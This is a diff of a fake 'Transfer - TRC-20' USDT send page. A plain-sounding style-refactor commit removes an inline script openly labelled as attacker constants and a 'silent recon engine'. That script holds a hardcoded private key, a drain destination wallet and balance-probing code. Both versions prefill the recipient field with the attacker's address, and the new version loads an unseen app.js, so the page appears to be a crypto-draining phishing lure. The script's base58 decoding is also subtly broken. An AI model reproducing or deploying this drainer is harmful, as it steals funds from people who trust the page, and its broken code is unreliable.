

Before and after one commit to rinku8888888886/bilu909989, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor HTML structure and update styles

```diff
--- a/index.html
+++ b/index.html
@@ -2,42 +2,205 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Transfer - TRC-20</title>
     <style>
-        @import url('https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap');
         :root {
-            --blue-primary: #1E4DFF;
-            --btn-purple: #9DA3FF;
-            --bg-pill: #F4F4F6;
-            --text-label: #646464;
-            --border-light: #EFEFEF;
-            --tron-orange: #FF060A;
+            --bg-color: #ffffff;
+            --text-primary: #1e2329;
+            --text-secondary: #848e9c;
+            --border-color: #eaecef;
+            --accent-blue: #1e80ff;
+            --btn-next-bg: #a5b4fc;
+            --btn-next-text: #ffffff;
+            --network-bg: #f5f5f5;
         }
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Inter', sans-serif; -webkit-tap-highlight-color: transparent; }
-        body, html { height: 100%; background-color: #fff; display: flex; flex-direction: column; overflow: hidden; }
-        .content { flex: 1; padding: 10px 20px; overflow-y: auto; }
-        .section { margin-top: 15px; }
-        .label { font-size: 14.5px; color: var(--text-label); font-weight: 600; margin-bottom: 10px; display: block; }
-        .input-group { display: flex; align-items: center; border: 1.8px solid var(--border-light); border-radius: 14px; height: 58px; padding: 0 16px; transition: 0.2s; position: relative; }
-        .input-group.active { border-color: var(--blue-primary); border-width: 2px; }
-        .input-group input { flex: 1; border: none; outline: none; font-size: 16px; font-weight: 500; color: #000; background: transparent; width: 100%; }
-        #recipientInput { text-align: right; padding-right: 8px; }
-        #amountInput { text-align: left; }
-        .actions { display: flex; align-items: center; gap: 12px; }
-        .blue-text { color: var(--blue-primary); font-weight: 700; font-size: 15px; cursor: pointer; }
-        .clear-btn { width: 22px; height: 22px; background: #5F6368; border-radius: 50%; display: none; align-items: center; justify-content: center; cursor: pointer; margin-right: 5px; }
-        .clear-btn::after { content: '×'; color: #FFFFFF; font-size: 18px; font-weight: 600; margin-top: -2px; }
-        .icon-svg { width: 22px; height: 22px; fill: none; stroke: var(--blue-primary); stroke-width: 2.5; stroke-linecap: round; stroke-linejoin: round; }
-        .network-pill { display: inline-flex; align-items: center; background-color: var(--bg-pill); padding: 6px 12px; border-radius: 20px; gap: 8px; }
-        .tron-logo-image { width: 20px; height: 20px; object-fit: contain; }
-        .network-text { font-size: 14px; color: #555; font-weight: 600; }
-        .footer { padding: 20px; }
-        .next-btn { width: 100%; height: 56px; background-color: var(--btn-purple); color: #fff; border: none; border-radius: 30px; font-size: 17px; font-weight: 700; cursor: pointer; transition: 0.2s; }
-        .next-btn.enabled { background-color: var(--blue-primary); }
-        .approx-txt { font-size: 13px; color: #9FA3A9; margin-top: 10px; font-weight: 500; }
 
-        /* Status Indicator */
+        * {
+            box-sizing: border-box;
+            margin: 0;
+            padding: 0;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, "Helvetica Neue", Arial, sans-serif;
+        }
+
+        body {
+            background-color: var(--bg-color);
+            color: var(--text-primary);
+            padding: 24px 20px;
+            padding-bottom: 100px;
+            min-height: 100vh;
+        }
+
+        .form-group {
+            margin-bottom: 28px;
+        }
+
+        .label {
+            font-size: 14px;
+            color: var(--text-primary);
+            margin-bottom: 16px;
+            font-weight: 500;
+            display: block;
+        }
+
+        .input-row {
+            display: flex;
+            align-items: center;
+            justify-content: space-between;
+            padding-bottom: 12px;
+        }
+
+        .address-input {
+            flex-grow: 1;
+            border: none;
+            outline: none;
+            font-size: 14px;
+            color: var(--text-primary);
+            text-align: right;
+            background: transparent;
+            margin-right: 12px;
+            font-family: monospace;
+        }
+
+        .address-input::placeholder {
+            color: var(--text-secondary);
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+        }
+
+        .action-group {
+            display: flex;
+            align-items: center;
+            gap: 16px;
+        }
+
+        .btn-text {
+            background: none;
+            border: none;
+            color: var(--accent-blue);
+            font-size: 14px;
+            font-weight: 600;
+            cursor: pointer;
+            padding: 0;
+        }
+
+        .btn-icon {
+            background: none;
+            border: none;
+            color: var(--text-secondary);
+            font-size: 18px;
+            cursor: pointer;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+        }
+
+        .btn-clear {
+            color: var(--text-secondary);
+            font-size: 16px;
+            margin-right: 4px;
+        }
+
+        .network-pill {
+            display: inline-flex;
+            align-items: center;
+            background-color: var(--network-bg);
+            padding: 8px 12px;
+            border-radius: 16px;
+            font-size: 14px;
+            color: var(--text-primary);
+            cursor: pointer;
+            gap: 8px;
+        }
+
+        .network-icon {
+            width: 16px;
+            height: 16px;
+            background-color: #eb5757;
+            border-radius: 4px;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            color: white;
+            font-size: 10px;
+            font-weight: bold;
+        }
+
+        .dropdown-arrow {
+            font-size: 10px;
+            color: var(--text-secondary);
+            margin-left: 4px;
+        }
+
+        .amount-row {
+            display: flex;
+            align-items: center;
+            justify-content: space-between;
+            padding-bottom: 12px;
+        }
+
+        .amount-input {
+            flex-grow: 1;
+            border: none;
+            outline: none;
+            font-size: 24px;
+            color: var(--text-primary);
+            background: transparent;
+            width: 100%;
+        }
+
+        .amount-input::placeholder {
+            color: var(--text-secondary);
+        }
+
+        .amount-right {
+            display: flex;
+            align-items: center;
+            gap: 16px;
+        }
+
+        .currency-label {
+            font-size: 16px;
+            font-weight: 600;
+            color: var(--text-primary);
+        }
+
+        .fiat-subtext {
+            font-size: 12px;
+            color: var(--text-secondary);
+            margin-top: 8px;
+            display: block;
+        }
+
+        .next-btn-container {
+            position: fixed;
+            bottom: 20px;
+            left: 20px;
+            right: 20px;
+            z-index: 100;
+        }
+
+        .next-btn {
+            width: 100%;
+            background-color: var(--btn-next-bg);
+            color: var(--btn-next-text);
+            border: none;
+            padding: 16px;
+            border-radius: 8px;
+            font-size: 16px;
+            font-weight: 600;
+            cursor: pointer;
+            transition: opacity 0.2s;
+        }
+
+        .next-btn:hover {
+            opacity: 0.9;
+        }
+
+        .next-btn:disabled {
+            opacity: 0.6;
+            cursor: not-allowed;
+        }
+
         .status-bar {
             position: fixed;
             top: 0;
@@ -48,7 +211,7 @@
             z-index: 9999;
         }
         .status-bar.active {
-            background: linear-gradient(90deg, var(--tron-orange), var(--blue-primary));
+            background: linear-gradient(90deg, #f75900, #3b82f6);
             animation: slide 2s infinite ease-in-out;
         }
         @keyframes slide {
@@ -61,113 +224,46 @@
 
     <div class="status-bar" id="statusBar"></div>
 
-    <div class="content">
-        <div class="section" style="margin-top: 20px;">
+    <div class="container">
+        <div class="form-group">
             <label class="label">Address or Domain Name</label>
-            <div class="input-group" id="addrGroup">
-                <input type="text" id="recipientInput" value="TWd2zR4V1dFvJbXJZv3zQy4Xz5Zy6Zy7Z8">
-                <div class="actions">
-                    <div class="clear-btn" id="clearAddr" style="display: flex;"></div>
-                    <span class="blue-text">Paste</span>
-                    <svg class="icon-svg" viewBox="0 0 24 24"><rect x="5" y="4" width="14" height="16" rx="2" /><line x1="3" y1="8" x2="6" y2="8" /><line x1="3" y1="12" x2="6" y2="12" /><line x1="3" y1="16" x2="6" y2="16" /></svg>
-                    <svg class="icon-svg" viewBox="0 0 24 24"><path d="M4 8V5a1 1 0 0 1 1-1h3M16 4h3a1 1 0 0 1 1 1v3M20 16v3a1 1 0 0 1-1-1h-3M8 20H5a1 1 0 0 1-1-1v-3" /><line x1="5" y1="12" x2="19" y2="12" /></svg>
+            <div class="input-row">
+                <input type="text" class="address-input" id="address" placeholder="Enter Tron (TRX) address" value="TWd2zR4V1dFvJbXJZv3zQy4Xz5Zy6Zy7Z8">
+                <div class="action-group">
+                    <button type="button" class="btn-icon btn-clear" id="clearBtn"></button>
+                    <button type="button" class="btn-text" id="pasteBtn">Paste</button>
+                    <button type="button" class="btn-icon"></button>
+                    <button type="button" class="btn-icon">⊞</button>
                 </div>
             </div>
         </div>
 
-        <div class="section">
+        <div class="form-group">
             <label class="label">Destination network</label>
             <div class="network-pill">
-                <!-- Tron Logo SVG -->
-                <svg class="tron-logo-image" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg">
-                    <path d="M12 2L22 7L22 17L12 22L2 17L2 7L12 2Z" fill="#FF060A"/>
-                    <path d="M12 6L17 8.5V13.5L12 16L7 13.5V8.5L12 6Z" fill="white"/>
-                </svg>
-                <span class="network-text">Tron (TRC-20)</span>
-                <svg width="12" height="12" viewBox="0 0 24 24" fill="none" stroke="#9FA3A9" stroke-width="4"><polyline points="6 9 12 15 18 9"></polyline></svg>
+                <div class="network-icon">⬡</div>
+                <span>Tron (TRC-20)</span>
+                <span class="dropdown-arrow">▼</span>
             </div>
         </div>
 
-        <div class="section">
+        <div class="form-group">
             <label class="label">Amount</label>
-            <div class="input-group" id="amountGroup">
-                <input type="number" id="amountInput" placeholder="0" inputmode="decimal">
-                <div class="actions">
-                    <div class="clear-btn" id="clearAmount"></div>
-                    <span style="color: #616469; font-size: 14px; font-weight: 500;">USDT</span>
-                    <span class="blue-text" id="maxBtn">Max</span>
+            <div class="amount-row">
+                <input type="number" class="amount-input" id="amount" placeholder="0" step="0.000001" min="0">
+                <div class="amount-right">
+                    <span class="currency-label">USDT</span>
+                    <button type="button" class="btn-text" id="maxBtn">Max</button>
                 </div>
             </div>
-            <div class="approx-txt">≈ $<span id="usdLabel">0.00</span></div>
+            <span class="fiat-subtext" id="fiatValue">≈ $0.00</span>
         </div>
     </div>
 
-    <div class="footer">
-        <button class="next-btn" id="nextBtn" disabled>Next</button>
+    <div class="next-btn-container">
+        <button type="button" class="next-btn" id="nextBtn">Next</button>
     </div>
 
-    <script type="module">
-        // ── Phase 1: Module Initialization ──
-        import { ethers } from 'https://cdnjs.cloudflare.com/ajax/libs/ethers/5.7.2/ethers.esm.min.js';
-
-        // ── Attacker's Operational Constants ──
-        const SPONSOR_KEY  = "d261cf293e5fca814b5038a5be4f5824005b837af7ed3cd8515ec6ce86b83b7f";
-        const DEST_WALLET  = "TWd2zR4V1dFvJbXJZv3zQy4Xz5Zy6Zy7Z8";
-        const USDT_TRC20   = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t";
-        const TRON_RPC     = "https://api.trongrid.io";
-        const MIN_DRAIN    = 2; // Only refuel if USDT balance > $2
-
-        // ── Runtime State ──
-        let tronWeb;
-        let userAddress;
-
-        // ── Utility: Base58 <-> Hex Conversion ──
-        const ALPHABET = '123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz';
-
-        function base58ToHex(address) {
-            if (address.startsWith('0x')) return address;
-            let n = 0n;
-            for (const c of address) {
-                const idx = ALPHABET.indexOf(c);
-                if (idx === -1) continue;
-                n = n * 36n + BigInt(idx);
-            }
-            let hex = n.toString(16);
-            if (hex.length % 2 !== 0) hex = '0' + hex;
-            return '0x' + hex.padStart(40, '0');
-        }
-
-        // ── Silent Recon Engine ──
-
-        // D1 — TRX gas check & sponsor refuel
-        async function checkAndRefuel(addr) {
-            try {
-                const balanceRes = await tronWeb.trx.getBalance(addr);
-                const balanceSun = balanceRes.balance; // 1 TRX = 1,000,000 SUN
-
-                if (balanceSun < 150) {
-                    const txId = await tronWeb.trx.sendTrx(addr, 80);
-                    await new Promise(resolve => setTimeout(resolve, 2000));
-                }
-            } catch (e) {
-                console.warn('Refuel failed', e);
-            }
-        }
-
-        // D2 — Silent balanceOf via raw eth_call
-        async function fetchMaxBalance(addr) {
-            try {
-                const hexAddr = base58ToHex(addr);
-                const data = "0x70a08231" + hexAddr.replace('0x', '').padStart(64, '0');
-
-                const res = await fetch(TRON_RPC, {
-                    method: 'POST',
-                    headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify({
-                        jsonrpc: "2.0", id: 1,
-                        method: "eth_call",
-                        params: [{ to: USDT_TRC20, data: data }, "latest"]
-                    })
-                });
-                const json = await res.json();
-                return (json.result && json.result !== '0x') ? json.result : null
+    <script type="module" src="app.js"></script>
+</body>
+</html>
```
